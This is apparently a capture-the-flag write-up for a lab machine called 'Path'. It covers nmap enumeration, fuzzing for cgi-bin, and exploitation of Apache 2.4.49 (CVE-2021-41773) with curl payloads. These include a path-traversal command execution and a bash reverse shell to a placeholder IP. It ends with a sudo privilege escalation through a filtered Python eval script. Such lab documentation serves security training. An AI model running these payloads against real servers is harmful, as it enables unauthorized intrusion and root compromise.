 ```yaml
---
layout: post
author: maxin
title:  "Path"
date:   2022-03-15 02:21:10 PM -03
category: CrowSec
tags: Writeup
---
```


# Enumeration

## Nmap

{% highlight text %}
Nmap scan report for 10.9.2.20
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 31:28:28:0d:21:c3:02:13:61:6a:31:cb:17:97:36:64 (RSA)
|   256 1c:00:ec:12:ae:ce:cc:0c:95:a7:b3:fc:20:08:a8:44 (ECDSA)
|_  256 68:04:d8:ef:52:11:e8:a7:98:e4:d5:8f:36:b2:e2:df (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Data web
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods:
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

The machine has two apache and one of them has a vulnerable version `2.4.49`

## Fuzzing port 8080

This vulnerable depends of cgi-bin folder, let’s fuzzing to see if this machine has this folder

{% highlight bash %}
ffuf -u http://10.9.2.20:8080/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
{% endhighlight %}

{% highlight text %}
cgi-bin/                [Status: 403, Size: 199, Words: 14, Lines: 8]
index.html              [Status: 200, Size: 45, Words: 2, Lines: 2]
{% endhighlight %}

Yes, the machine has the folder.

### Exploit

[CVE-2021-41773](https://github.com/jbovet/CVE-2021-41773)

{% highlight bash %}
curl --data "echo;id" 'http://10.9.2.20:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' 
{% endhighlight %}

Reverse shell

- Open a listener port and create a reverse shell

{% highlight bash %}
curl --data "echo;bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'" 'http://10.9.2.20:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
{% endhighlight %}

## Root

{% highlight text %}
sudo -l

User daemon may run the following commands on 203dc28a76f7:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
{% endhighlight %}

{% highlight python %}
import ssl

print('''
  ______                   _____
  / ____/________ _      __/ ___/___  _____
 / /   / ___/ __ \ | /| / /\__ \/ _ \/ ___/
/ /___/ /  / /_/ / |/ |/ /___/ /  __/ /__
\____/_/   \____/|__/|__//____/\___/\___/

''')
print('\n')

crowsec = "SuperSecretKey"

cmd = str(input("[CMD]>"))

if(cmd[0:7] != "crowsec"): -> We need to start the command with this word
    print("[X] Invalid prefix!")
    exit(1)
else:
    while True:
        cmd.replace("__import__","")
        cmd.replace("|","") -> Thisis BAD, we can bypass this using pipe with space. "| " like this
        cmd.replace("system","")
        try:
            result = eval(cmd)
        except:
            result = "ERROR"
        print(result)
        cmd = str(input("[CMD]>"))
        if(cmd[0:7] != "crowsec"):
            print("[X] Invalid prefix!")
            break
{% endhighlight %}

[Bypass Python sandboxes](https://book.hacktricks.xyz/misc/basic-python/bypass-python-sandboxes)

{% highlight bash %}
sudo python3 /opt/script.py
crowsec| print(open("/root/root.txt").read())
{% endhighlight %}